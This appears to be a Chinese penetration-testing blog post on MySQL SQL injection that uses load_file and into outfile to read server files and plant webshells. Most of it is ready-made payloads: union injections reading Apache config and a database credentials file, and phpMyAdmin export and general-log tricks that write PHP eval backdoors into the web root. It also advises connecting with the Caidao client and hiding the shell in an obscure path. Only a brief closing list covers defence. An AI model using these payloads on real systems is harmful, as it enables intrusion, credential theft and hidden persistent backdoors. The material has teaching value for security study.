 ```yaml
---
draft: false
date: 2016-06-20 08:10:27
title: SQL 注入之 load_file 和 into outfile(MySQL)
description: 
categories:
  - Pentest
tags:
  - SQL注入
  - getshell
---
```


### 0x00 load_file() 读文件
* 条件:

```
1. 要有file_priv权限: show global variables like '%secure%';
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径
    ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  
    ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件
    ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 load data local infile 读文件
* 条件:

```
MySQL8 中需要 SET GLOBAL local_infile=1;
```

* 语句

```
LOAD DATA LOCAL INFILE 'D:/pet.txt' INTO TABLE pet FIELDS TERMINATED BY '';
select * from pet;
```

### 0x02 into outfile getshell
* 条件：

```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法  
当知道路径时，可以直接用

```
id=1 union select "<? phpinfo();>" into outfile("C:/phpStudy/WWW/a.php")

id=1 into outfile 'C:/phpStudy/WWW/a.php' columns terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' fields terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' lines terminated by '<? phpinfo();>';
id=1 into outfile 'C:/phpStudy/WWW/a.php' lines starting by '<? phpinfo();>';
```

* phpMyAdmin 导出数据 getshell 

登陆phpMyAdmin  
```
use test;  选择数据库为test
create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
insert into aaa values("<?php @eval($_POST['c']);?>"); --在 aaa 中写入 shell 内容
select * from aaa into outfile 'C:/phpStudy/WWW/a.php'; --将 aaa 中的数据导出到文件 a.php
```

localhost:80/a.php能访问  
```
drop aaa; --删除建立的表
```

然后菜刀连接  
```ini
菜刀连接http://www.aa.com/a.php，然后更改shell的名字并将shell放在较隐蔽的地方，比如C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
```

* phpMyAdmin 日志 getshell

```
show variables like '%general%';             #查看配置
set global general_log = on;                 #开启general log模式
set global general_log_file = 'C:/phpStudy/WWW/a.php'; #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'             #写入shell
set global general_log=off;                  #关闭general log模式
```

### 0x03 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件